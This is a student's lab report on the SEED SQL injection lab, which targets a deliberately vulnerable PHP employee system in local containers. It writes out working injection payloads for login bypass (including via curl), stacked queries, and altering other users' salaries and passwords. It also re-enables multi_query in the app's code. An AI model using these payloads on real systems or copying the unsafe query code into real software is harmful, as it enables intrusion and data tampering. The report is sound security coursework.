# LOGBOOK 8

## SQL Injection Attack Lab

### What is an SQL Injection Attack?

SQL injection is a code injection technique that exploits a security vulnerability in the interface between a web application and its database. The vulnerability occurs when the web application fails to properly sanitize user-supplied input which is then used in an SQL query. The attacker can generally use SQLi to either bypass authentication, retrieve sensitive data, or modify data in the database. SQL injection is one of the most common and dangerous attacks on web applications. It is vital for web developers to understand the nature of this attack and how to prevent it.

### Lab Environment and Setup

As specified, there are two containers in this lab, one for hosting the web application and the other for hosting its database. The IP address of the web application container is 10.9.0.5, and the URL of the web application is <http://www.seed-server.com>.

We successfully mapped this hostname to the IP address of the web application container by adding the following entry to the `/etc/hosts` file.

```
10.9.0.5    www.seed-server.com
```

We needed to use the `sudo` command to edit this file.

Finally, we used the `docker-compose` command to build and start the containers.

```bash
$ dcbuild       # alias for docker-compose build
$ dcup          # alias for docker-compose up
```

#### About the Web Application

The web application is a simple employee management system. There are two roles: Administrator and Employee. The administrator can manage each employee's personal information. Employee can view or update their own profile information.

### Lab Tasks

#### Task 1: Get Familiar with SQL Statements

We used the `docksh` command to get a shell inside the MySQL container. Before we could do this, we needed to find the MySQL container's ID. We did this by running the `dockps` command.



Inside the MySQL container, we executed the following:

```
mysql -u root -pdees
```

This allowed us to log in to the MySQL server as the root user. As the sqllab_users database was already created, we simply used the `use` command to load this existing database.

```
mysql> use sqllab_users;
```

To print all the tables in the database, we used the `show tables;` command.

```
mysql> show tables;
```

The output is shown in the following screenshot.


There is only one table named `credential` in the database. We used the `select` command to print all the records in this table, and have a look at the data.

```
mysql> select * from credential;
```

The result of this query is shown below.



Lastly, as instructed, we used `select` to print the record of the user `Alice`.

```
mysql> select * from credential where Name = 'Alice';
```



#### Task 2.1: SQL Injection Attack from webpage

The web application has a login page, which allows users to log in with their username and password. 

This is the screenshot of the login page.



The user authentication is implemented in the `unsafe_home.php` file. After reviewing the php code, we found that the following SQL statement is used to authenticate the user.

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd); # hashing the password means we cannot use it for injection
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password 
        FROM credential 
        WHERE name='$username' and Password='$hashed_pwd'";
```

We can see that the above statement is constructed using the username and password provided by the user, without any proper sanitization. This is a very dangerous practice, as it allows attackers to modify the SQL statement by manipulating the user input.

To demonstrate this, and bypass the authentication, we used the following username and password, to log in as `admin`. Note that the password value is arbitrary and we cannot use it for injection, since it is hashed (sha1) before being used in the query.

```
Username: admin'#
Password: 11
```

The resulting query will be as follows.

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
        FROM credential
        WHERE name='admin'#' and Password='<hash_11>'"
```

The `#` character is used to comment out the rest of the query. This means that the query will only check if the username `admin` exists in the database. The password will not be checked, granting us access to the admin account.

In the admin account, we have access to all the employee records, as shown in the following screenshot.



#### Task 2.2: SQL Injection Attack from command line

We can use the `curl` command to send HTTP requests to the web application. In the following example, we sent a request to the login page, with the username `Alice` and the password `11`, as specified in the guide.

```bash
$ curl 'www.seed-server.com/unsafe_home.php?username=alice&Password=11'
```

And we got the resulting HTML from the web page, specifying that we had the wrong credentials. This is shown in the following screenshot.



In fact, to verify that it was supposed to fail, we even searched for the password correspondent to the hash in the database (since we learned sha1 is unsafe), and we found that the password was "seedalice".


This allows us to perform the same attack as the previous task, but from the command line. We used the following command to log in as `admin`.

```bash
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=11'
```

The `%27` is the URL encoding for the `'` character, and `%23` is the URL encoding for the `#` character. The resulting query is the same as the one in the previous task.

This is the screenshot of the command's output.



This time we got the HTML for the admin page (the complete table), which means we successfully logged in as `admin`.

#### Task 2.3: Append a new SQL statement

We tried to append another query but were unsuccessful, because of a countermeasure as described in the guide.

This was our try:
```
Username: admin'; UPDATE credential SET salary = 1000000 WHERE Name='Alice'#
Password: 11
```
It resulted in this error message from the server:




This attack did not work because of the function used from php's mysqli extension. The mysqli::query() function only allows one SQL statement to be executed at a time. This is due to the concern of SQL Injection attacks. If the mysqli::multi_query() function was used, then multiple SQL statements could be executed at once, and the attack would work.


To test that our exploit would work with mysqli::multi_query(), we changed the php code to use this function instead of mysqli::query(). We did this by changing the `unsafe_home.php` file, as shown here:
```php
if (!$result = $conn->query($sql)) {
```
We changed that to:
```php
if (!$result = $conn->multi_query($sql)) {
```

Running again the containers and trying the same attack, we got the following result on the database, which shows that the attack was successful.



It shows the salary before and after the multiple query attack.

#### Task 3.1: Modify your own salary

Firstly, we logged in as `Alice` (using the sql injection seen before), and then clicked the Edit Profile button, which took us to the Edit Profile page shown below.



The Edit Profile page allows us to update our personal information. It is implemented in the `unsafe_edit_backend.php` file. 

The following SQL statement is used to update the user's information.

```php
$sql = "UPDATE credential 
        SET nickname='$input_nickname', email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' 
        WHERE ID='$id'";
```

We can manipulate the SQL statement by modifying the input fields. For example, we can change the nickname to `Alice', salary='999999999`, which will result in the following query.

```php
$sql = "UPDATE credential 
        SET nickname='Alice', salary='999999999', email='$input_email', address='$input_address', Password='%hashed_pwd', PhoneNumber='$input_phonenumber' 
        WHERE ID='$id'";
```

This successfuly changed Alice's salary to 999999999. The following screenshot shows the result.



#### Task 3.2: Modify other people's salary 

To modify other people's salary, in this case, `Boby`, we can use a similar technique, with the nuance that the user is different from the one logged in. We can use the following input on the nickname field.

```
', salary='1' WHERE Name = 'Boby'#
```

This will result in the following query.

```php
$sql = "UPDATE credential 
        SET nickname='', salary='1' WHERE Name = 'Boby'#', email='$input_email', address='$input_address', Password='%hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID='$id'";
```

The `#` character is placed so that the rest of the query is commented out. The ID check placed at the end will not be executed, and this will effectively change Boby's salary to 1. We do not get the direct result in the web page, but we can check the database to verify that the salary was changed, as seen here.



These is the row correspondent to "Boby" before and after our attack.

#### Task 3.3: Modify other people's password

This time, we need to change Boby's password.

This task is not as simple as the previous ones, as the password needs to be correctly hashed before being stored in the database.

Analyzing the php code, we see that the phone number is set after the password is hashed. 

Our approach was to place the new password in the password field, and use the phone number field to perform the sql injection, placing the `WHERE` clause. This way, the password will be hashed, and the phone number will be used to select the user Boby.

The following input was used.

- Phone Number:
  
```
' WHERE Name = 'Boby'#
```

- Password:
  
```
123
```

When we got back to the home page, we got an error message, which may seem weird.


This happens because the password we entered doesn't match the one of our account (Alice) in the database, since we changed someone else's password.
The php code set our current session password to be the one we had just introduced, since it expected that we were changing our own password.
```php
$_SESSION['pwd'] = $hashed_pwd;
```

Regardless of that error message, the password should be changed.

When we checked the database, we could see that the password hash was changed.




And now we can log in as `Boby`, using the password `123`.

| Username and password | Logged in |
|:-:|:-:|
|||


### Conclusions
We learned the impact and the danger of SQL injection attacks. We also learned how to exploit SQL injection vulnerabilities to bypass authentication, retrieve sensitive data, and modify data in the database.
